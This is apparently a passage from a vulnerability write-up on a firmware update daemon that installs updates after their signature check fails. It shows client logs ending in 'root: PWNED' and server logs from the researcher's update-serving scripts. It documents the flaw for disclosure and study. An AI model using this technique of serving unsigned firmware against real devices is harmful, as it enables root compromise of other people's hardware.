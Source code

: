 ```
fsupdate_daemon[4481]: fsguts2.c:2473[13] size 1844
fsupdate_daemon[4481]: adt/fsjson.c:1567[13] did not find node named 'path' under an object
fsupdate_daemon[4481]: fsguts2.c:2525[13] sha256 59cbc90c560ceeda6292a0a8b64377144566a77e25d02cdeb9b33e511ddeebc9
fsupdate_daemon[4481]: adt/fsjson.c:1545[13] trying to access array beyond the end at index 3, looking for index 4
fsupdate_daemon[4481]: fsguts2.c:2437[13] end of files in the header
fsupdate_daemon[4481]: download: daas2 check: /data/guts2/sense-firmware/1554196376
fsupdate_daemon[4481]: check: VerifyManifest failed as 22
fsupdate_daemon[4481]: download: <<< ignore incorrectly signed update
fsupdate_daemon[4481]: install: >>> check for pending sense-firmware
fsupdate_daemon[4481]: install: pending update: /data/guts2/sense-firmware/1554196376
root: PWNED
root: Firmware update executable starting
root: Schedule check: setup_completed=1 uptime=9750 skip_count=4 slot=4 hour=19
root: Out of upgrade slot 4, skipping firmware update
fsupdate_daemon[4481]: install: <<< firmware upgrade delayed with status 28416 exitcode 111 | pending+
fsupdate_daemon[4481]: run: next check in 55 minutes
```
### [END CLIENT LOG]

The message "**root: PWNED**" in the log indicates that the exploit succeeded.

Moreover, note these lines in the log:
```
fsupdate_daemon[4481]: download: daas2 check: /data/guts2/sense-firmware/1554196376
fsupdate_daemon[4481]: check: VerifyManifest failed as 22
fsupdate_daemon[4481]: download: <<< ignore incorrectly signed update
fsupdate_daemon[4481]: install: >>> check for pending sense-firmware
fsupdate_daemon[4481]: install: pending update: /data/guts2/sense-firmware/1554196376
```

The firmware version (and the entire firmware path btw) on which the check fails is then installed (executed) anyway, that's what allowed the RCE!


### [SERVER LOG]

On the server side (**fw_upgrade.py**):
```
192.168.71.1 - - [15/Aug/2019 15:24:44] "POST /q HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 15:24:44] "GET /h;t=sense-firmware;v=1554196376;c=96c7329d HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 15:24:45] "GET /o;t=sense-firmware;v=1554196376;c=96c7329d HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 15:24:45] "GET /f/17aa3e173e5e90b950741390f1d2286fe1028b66710eac1fcfcee93be7851e59_archive HTTP/1.0" 200 -
```
(**fw_upgrade2.py**):
```
192.168.71.1 - - [15/Aug/2019 16:39:27] "POST /q HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 16:39:28] "GET /h;t=sense-firmware;v=1554196377;c=96c7329d HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 16:39:28] "GET /o;t=sense-firmware;v=1554196377;c=96c7329d;pv=1554196376;pc=96c7329d HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 16:39:28] "GET /f/bd0feb5e499782182c6315d06d2803fcd1c24fcc88e9a02a2012050b0d4d0832_archive HTTP/1.0" 200 -
```
(**fw_upgrade3.py**):
```
192.168.71.1 - - [15/Aug/2019 17:35:59] "POST /q HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 17:35:59] "GET /h;t=sense-firmware;v=1554196376;c=96c7329d HTTP/1.0" 200 -
192.168.71.1 - - [15/Aug/2019 17:35:59] "GET /o;t=sense-firmware;v=1554196376;c=96c7329d;pv=1554196377;pc=96c7329d HTTP/1.0" 200 -
```